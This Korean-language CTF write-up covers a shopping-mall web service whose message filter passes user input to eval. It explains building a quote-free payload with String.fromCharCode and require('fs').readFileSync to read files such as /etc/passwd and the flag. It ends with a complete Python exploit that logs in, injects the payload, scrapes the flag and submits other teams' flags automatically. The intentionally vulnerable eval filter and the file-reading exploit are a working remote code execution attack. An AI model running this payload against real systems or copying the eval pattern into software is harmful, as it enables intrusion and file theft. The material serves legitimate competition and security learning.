

# Service 2. Mall

Service 2는 상품을 온라인으로 구매할 수 있는 쇼핑몰이다.
메인 화면에 관리자에게 메시지를 보낼 수 있는 Contact 창이 있다.
그런데 실제로는 `/mypage/sendMessage` 로 요청이 가고,
그 메세지는 나중에 mypage에서 볼 수 있다.

## Vulnerability

`mail/webServer/routes/mypage.js`를 보면 다음 코드가 있다.

```js
/*
 * This function is to send message to mypage.
 */
router.post('/sendMessage', function(req, res, next)
{
    // parameter from client
    var msg = req.param('msg');

    // SQL statement
    var iString = 'INSERT INTO messages SET ?';
    var p = { user_id: req.session.user, msg: msgfilter(msg) };

    // inserting messages to mypage
    q.query( iString, p, function( err, result, fields ){
        // when SQL error
        if (err) {
            console.log(err);
            return res.json( { status: 0, message: "Wrong parameter..."} );
        }
        // when SQL success
        else {
            var items = result;
            console.log(result);

            // send success message
            res.json({ status: 1 , message: 'Sent message...'});
        }
    });

    // execute SQL
    q.execute();
});

// securely filter out messages!
function msgfilter(msg) {
    try {
        return eval(msg.replace(/\\/g, "\\\\")
                       .replace(/<script>/g,"")
                       .replace(/<\/script>/g,"")
                       .replace(/'/g,"\\'")
                       .replace(/"/g, "\\\""));
    } catch (e) {
        console.log(e.message);
        return msg;
    }
}
```

DB에 메시지를 입력하기 전에 `msgfilter`함수를 거치게 되는데,
그 과정에서 임의의 문자열을 코드로 실행해주는 `eval`함수를 사용한다.
몇 가지 필터링을 하기는 하지만 여전히 사용자가 입력한 내용을 거의 그대로
실행해주기 때문에 임의 코드 실행이 가능한 취약점이 있다.

## Attack vector

메시지에 플래그를 읽어오는 javascript 코드를 입력하여 보내면 그 코드가 실행된 뒤 DB에 추가되어
mypage에서 플래그 파일의 내용을 볼 수 있다.

다만 따옴표(`'`,`"`)를 사용할 수 없으므로 플래그 파일 명 등 문자열을 다른 방식으로 입력해야 한다.
`String.fromCharCode`함수를 사용하면 따옴표 없이도 아스키 코드로부터 글자를 만들어낼 수 있다.

또한 nodejs의 `fs.readFileSync`함수를 사용하면 파일을 읽어올 수 있다. eval context 내에는
fs가 정의되어있지 않은데, `require`를 사용해서 fs를 불러오면 해결된다.

실제로 아래와 같은 코드를 보내면 `/etc/passwd` 파일 내용을 볼 수 있다.




## Exploit


```
import os
import re
import time

import requests

# equivalent to
# require('fs').readFileSync('/var/ctf/flag').toString()

fname = '/var/ctf/flag'
charcodes = []
for a in map(ord, fname):
    charcodes.append('String.fromCharCode(%d)' % a)
name = '+'.join(charcodes)

pay = 'require(String.fromCharCode(102) + String.fromCharCode(115))'
pay += '.readFileSync(' + name + ').toString()'

def ex(team):
    domain = 'http://localhost:80%d2' % team
    s = requests.Session()
    r = s.post(domain + '/login', data={'id':'team5', 'pw':'5team'})
    r = s.post(domain + '/mypage/sendMessage', data={'msg':pay})
    time.sleep(2)
    r = s.get(domain + '/mypage')

    hits = re.findall('div class="panel-body">\s+(\w{32})\s+', r.content)
    flag = hits[-1]
    return flag

for i in (1,2,3,4,6):
    try:
        flag = ex(i)
        os.system('python submit.py %d 2 %s' % (i, flag))
    except:
        pass
```
